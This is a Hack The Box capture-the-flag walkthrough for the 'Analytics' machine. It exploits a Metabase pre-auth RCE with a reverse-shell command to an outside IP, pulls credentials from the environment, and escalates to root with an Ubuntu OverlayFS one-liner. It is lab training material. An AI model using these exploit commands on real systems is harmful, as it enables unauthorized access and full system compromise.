


# Analytics

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

First we scan open ports:

```sh
$ nmap -A -T4 -Pn 10.10.11.233
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 13:24 CET
Nmap scan report for 10.10.11.233
Host is up (0.035s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.72 seconds
```

Let's add `analytical.htb` to `/etc/hosts`:

```sh
$ echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

And open it in browser:


When we click on login, we are redirected to `data.analytical.htb`, so we also need to add it to `/etc/hosts`:

```sh
$ echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts
```

Now we can open login page:



We can find [CVE-2023–38646 Metabase Pre-Auth vulnerability](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396). Let's exploit it, using [this](https://github.com/m3m0o/metabase-pre-auth-rce-poc) script.

Firstly we need to open `http://data.analytical.htb/api/session/properties` and find `setup-token`:



Next, we can set up netcat listener and execute the script in other window:

```sh
$ nc -l 9001
```

```sh
$ python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.92/9001 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

And we got the reverse shell: 

```sh
$ nc -l 9001
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d5f6b76e6408:/$
```

We can check environment variables:

```sh
$ env
...
META_USER=metalytics
META_PASS=An4lytics_ds20223#
...
```

Let's try to connect with `ssh` with those credentials:

```sh
$ ssh metalytics@10.10.11.233
...
metalytics@analytics:~$
```

And we are in! Let's see `user` flag:

```sh
metalytics@analytics:~$ cat user.txt
5a9184aafb368e99991a74928d2edc5c
```

Now we need to escalate our priveleges to `root`. Let's check the kernel version, because `sudo -l` didn't worked:

```sh
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

We can find following vulnerability: [Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). So we can try to execute the command:

```sh
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

It works! Let`s read `root.txt`:

```sh
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
c7ce51fda5ac239fdf691e238fcfecdf
```

## Final Flags

> `user`: 5a9184aafb368e99991a74928d2edc5c
> `root`: c7ce51fda5ac239fdf691e238fcfecdf

*Created by [bu19akov](https://github.com/bu19akov)*